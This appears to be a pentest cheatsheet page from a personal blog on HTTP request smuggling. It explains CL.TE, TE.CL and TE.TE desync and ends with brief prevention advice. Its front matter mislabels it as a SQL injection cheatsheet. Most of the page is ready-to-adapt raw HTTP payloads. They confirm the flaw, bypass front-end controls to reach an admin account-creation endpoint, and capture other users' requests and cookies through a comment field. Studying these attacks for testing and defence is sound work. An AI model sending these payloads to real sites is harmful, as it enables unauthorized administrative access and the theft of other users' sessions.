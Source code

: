 ```yaml
---
title: "HTTP request smuggling"
subtitle: ""
draft: false
author: "Hato0"
description: "SQL injection cheatsheet"
Last Update: <time datetime="{{ .Page.Lastmod.Format "Mon Jan 10 17:13:38 2020 -0700" }}" class="text-muted">  {{ $.Page.Lastmod.Format "January 02, 2006" }} </time>
Date: 2022-06-20

tags: ["web", "penetest", "HTTPRS"]
categories: ["Penetest - Web"]

hiddenFromHomePage: true
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# HTTP request smuggling

HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to sensitive data, and directly compromise other application users.

HTTP request smuggling is an attack based on bad request handling between front and backend. The front end receive the user packet and transfer data or request to the backend. In that way you can chunk your original request and perform a double request in one paquet send. In that way you can bypass some protections.  

Different types of HTTP request smuggling exist, they are :

-   CL.TE: the front-end server uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header.
-   TE.CL: the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header.
-   TE.TE: the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.

## Basics

- Basic CL.TE vulnerability

	You have to send a chunk request passing low content length to perform double requests in one, Here is an example:
	
	{{< highlight http "lineNos=false" >}}
	POST / HTTP/1.1  
	Host: WEBSITE  
	Connection: keep-alive  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 6  
	Transfer-Encoding: chunked  

	0  

	G
	{{< /highlight >}}
	
	
- Basic TE.CL vulnerability

	Same as previous with a well formed double request, here is an example:
	
	{{< highlight http "lineNos=false" >}}
	POST / HTTP/1.1  
	Host: WEBSITE  
	Content-Type: application/x-www-form-urlencoded  
	Content-length: 4  
	Transfer-Encoding: chunked  

	5c  
	GPOST / HTTP/1.1  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 15  

	x=1  
	0

	{{< /highlight >}}
	
	
## Confirming vulnerabilities

- Confirming a CL.TE vulnerability via differential responses

	Using same technique as previous you can target a page you are sure about the response like 404, home or whatever. The request should return the page on the second header. Here is an example
	
	{{< highlight http "lineNos=false" >}}
	POST / HTTP/1.1  
	Host: WEBSITE 
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 35  
	Transfer-Encoding: chunked  

	0  

	GET /404 HTTP/1.1  
	X-Ignore: X

	{{< /highlight >}}
	
- Confirming a TE.CL vulnerability via differential responses

	Same thing as before just a different way to do it.  Here is an example:
	
	{{< highlight http "lineNos=false" >}}
	POST / HTTP/1.1  
	Host: WEBSITE
	Content-Type: application/x-www-form-urlencoded  
	Content-length: 4  
	Transfer-Encoding: chunked  

	5e  
	POST /404 HTTP/1.1  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 15  

	x=1  
	0

	{{< /highlight >}}
	
	
## Bypass front-end protections
- Bypass front-end security controls, CL.TE vulnerability

	Here is an example of how you can bypass the front to make the back do what you want (that's an example and you really have to adapt it):
	
	{{< highlight http "lineNos=false" >}}
POST / HTTP/1.1  
Host: WEBSITE
Content-Type: application/x-www-form-urlencoded  
Content-Length: 139  
Transfer-Encoding: chunked  
    
0  
    
GET /admin/add?username=test&password=test HTTP/1.1  
Host: localhost  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 10  
    
x=
	{{< /highlight >}}
	
	
- Bypass front-end security controls, TE.CL vulnerability

	Same thing as before, just the necessary change:
	
	{{< highlight http "lineNos=false" >}}
	POST / HTTP/1.1  
	Host: WEBSITE  
	Content-length: 4  
	Transfer-Encoding: chunked  

	87  
	GET /admin/add?username=test&password=test HTTP/1.1  
	Host: localhost  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 15  

	x=1  
	0

	{{< /highlight >}}

## Advanced

- Exploiting HTTP request smuggling to capture other users' requests

	You need to be able to have a field that is at the end of your post data and to be able to update a site field or comment or post or ... In that way you will catch the other user requests by redirect it back to your data in your post request. Here is an example: 
	
	{{< highlight http "lineNos=false" >}}
	GET / HTTP/1.1  
	Host: WEBSITE 
	Transfer-Encoding: chunked  
	Content-Length: 324  

	0  

	POST /post/comment HTTP/1.1  
	Host: WEBSITE  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 400  
	Cookie: session=YOURCOOKIE

	csrf=CSRFTOKEN&postId=2&name=YOURNAME&email=EMAIL&comment=
	
	
	{{< /highlight >}}


## How to prevent them

How can implement a rejection of wierd / malformed request or also do these following actions :

-   Disable reuse of back-end connections, so that each back-end request is sent over a separate network connection.
-   Use HTTP/2 for back-end connections, as this protocol prevents ambiguity about the boundaries between requests.
-   Use exactly the same web server software for the front-end and back-end servers, so that they agree about the boundaries between requests.